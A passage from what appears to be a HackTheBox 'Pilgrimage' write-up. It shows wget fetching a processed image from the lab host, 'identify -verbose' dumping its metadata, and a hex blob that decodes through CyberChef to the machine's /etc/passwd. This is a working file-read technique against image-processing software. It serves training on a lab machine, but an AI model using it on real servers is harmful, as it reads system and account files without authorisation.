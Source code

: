 This gave us the following link as result:
```shell
http://pilgrimage.htb/shrunk/672cf840dc6c1.png
```
We will get the file into our Kali using wget:
```shell
wget http://pilgrimage.htb/shrunk/672cf840dc6c1.png
```
And use identify command to get the contents of the file:
```shell
identify -verbose 672cf840dc6c1.png
```

We will copy the part interests us:
```shell
726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d
6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f
6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e
2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269
6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f
62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d
65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a
2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a
783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372
2f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73
706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31
303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f
6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573
722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d
646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b
75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f
7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69
7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67
696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73
62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d
5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e
6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334
3a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e
2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374
656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f72
6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65
6e742c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e
0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d642052
65736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d6573736167656275733a783a3130333a3130393a3a2f6e6f6e65786973
74656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d74696d6573
796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e69
7a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c
6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d
652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78
3a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f
7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f
737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938
3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a
```
And enter it on CyberChef with the recipe From Hex:
```shell
https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')
```
